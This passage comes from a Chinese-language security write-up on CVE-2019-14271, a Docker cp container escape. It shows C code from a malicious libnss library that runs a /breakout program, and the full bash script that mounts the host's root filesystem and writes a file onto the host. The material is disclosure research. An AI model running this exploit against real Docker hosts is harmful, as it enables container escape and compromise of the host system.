 ```
           // Child runs breakout
           argv_break[0] = strdup("/breakout");
           argv_break[1] = NULL;
           execve("/breakout", argv_break, NULL);
`}`
     else
           wait(NULL); // Wait for child

     return;
`}`
bool is_priviliged()
`{`
     FILE * proc_file = fopen("/proc/self/exe", "r");
     if (proc_file != NULL)
     `{`
           fclose(proc_file);
           return false; // can open so /proc exists, not privileged
     `}`
     return true; // we're running in the context of docker-tar
`}`
```

`run_at_link`首先会验证代码运行在`docker-tar`上下文中，这是因为其他正常的容器进程也可能加载该库。代码通过检查`/proc`目录完成该操作。如果`run_at_link`运行在`docker-tar`上下文中，那么该目录将为空，这是因为挂载到`/proc`的`procfs`只存在于容器的`mount`命名空间中。

接下来，`run_at_link`会将恶意库替换为原始的`libnss`库。这样能确保利用代码运行的后续进程不会意外加载恶意库，避免再次执行`run_at_link`。

随后，为了简化利用过程，`run_at_link`会尝试运行容器中的`/breakout`可执行文件。这样后续利用代码就可以在bash中完成，不需要依赖于C。后续利用逻辑不受限于`run_at_link`，这也意味着当利用代码有改动时，我们不需要每次都重新编译恶意库，只需要修改`breakout`程序即可。

如[下图](https://asciinema.org/a/HfdKQKFn7Cn67e5QLWm9gzFfT)所示，当Docker用户运行恶意镜像（其中包含我们的恶意`libnss_files.so`库），尝试从容器中拷贝某些日志文件时，镜像中的`/breakout`程序就会执行。这里的`/breakout`是一个简单的bash脚本，会将宿主文件系统加载到容器的`/host_fs`，并将信息写入宿主机上的`/evil`。

[![](https://p3.ssl.qhimg.com/t0152b2990714a702a2.gif)](https://p3.ssl.qhimg.com/t0152b2990714a702a2.gif)

图3. 利用CVE-2019-14271实现容器逃逸

该视频中使用的`/breakout`脚本源码如下所示。为了获取宿主机根文件系统的引用，脚本将`procfs`挂载到`/proc`。由于`docker-tar`运行在宿主机的`PID`命名空间中，被挂载的`procfs`将会包含宿主机进程中的数据。该脚本随后会挂载宿主机`PID 1`的根目录。

```
#!/bin/bash

umount /host_fs &amp;&amp; rm -rf /host_fs
mkdir /host_fs


mount -t proc none /proc     # mount the host's procfs over /proc
cd /proc/1/root              # chdir to host's root
mount --bind . /host_fs      # mount host root at /host_fs
echo "Hello from within the container!" &gt; /host_fs/evil
```
